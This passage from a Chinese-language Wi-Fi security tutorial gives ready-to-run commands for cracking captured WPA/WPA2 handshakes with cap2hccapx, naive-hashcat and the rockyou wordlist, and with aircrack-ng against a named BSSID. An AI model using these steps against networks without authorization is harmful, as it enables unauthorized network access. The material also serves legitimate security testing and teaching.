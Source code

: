 注意下面的攻击方法都假设用户正在使用弱密码。现如今很多 WPA/WPA2 路由自带 12 位强随机密码，大部分用户都不会去更改。如果你去尝试破解这些密码，我建议你使用 [Probable-Wordlists WPA-length](https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length) 字典文件。

#### 使用 `naive-hashcat` 破解（推荐）

在我们使用 naive-hashcat 破解密码之前，我们需要将我们的 `.cap` 文件转换成同等 hashcat 文件格式 `.hccapx`。你可以通过上传 `.cap` 文件到 <https://hashcat.net/cap2hccapx/>  或者直接使用 [`cap2hccapx`](https://github.com/hashcat/hashcat-utils) 工具。

```bash
cap2hccapx.bin hackme.cap hackme.hccapx
```

接着，下载并运行 `naive-hashcat`：

```bash
# 下载
git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat

# 下载 134MB rockyou 字典文件
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# 破解！宝贝！破解！
# 2500 是 hashcat 对于 WPA/WPA2 的哈希模式
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

Naive-hashcat 使用多种[字典](https://hashcat.net/wiki/doku.php?id=dictionary_attack)，[规则](https://hashcat.net/wiki/doku.php?id=rule_based_attack)，[组合](https://hashcat.net/wiki/doku.php?id=combinator_attack)以及[伪装](https://hashcat.net/wiki/doku.php?id=mask_attack)（聪明的暴力）攻击，并且它需要花费数天甚至数月来破解中等长度的密码。破解的密码将会保存到hackme.pot，因此不时要检查这个文件。一旦你破解这个密码，你将会在你的 `POI_FILE` 看到类似于下面的内容：

```
e30a5a57fc00211fc9f57a4491508cc3:9c5c8ec9abc0:acd1b8dfd971:ASUS:hacktheplanet
```

最后两块被 `:` 分隔开来，分别是网络名称和密码。

如果你想直接使用 `hashcat` 而不是 `naive-hashcat` 的话请参考[这个页面](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)。

#### 利用 Aircrack-ng 破解

Aircrack-ng 可以用于在你的 CPU 上运行来进行非常基本的字典攻击。在你运行攻击之前，你需要一个单词表。我推荐使用非常著名的 rockyou 字典文件：

```bash
# 下载 134MB rockyou 字典文件
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

注意，如果网络密码不再这个单词文件话，你将不能破解密码。

```bash
# -a2 指定 WPA2，-b 是 BSSID，-w 是字典文件
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt hackme.cap
```
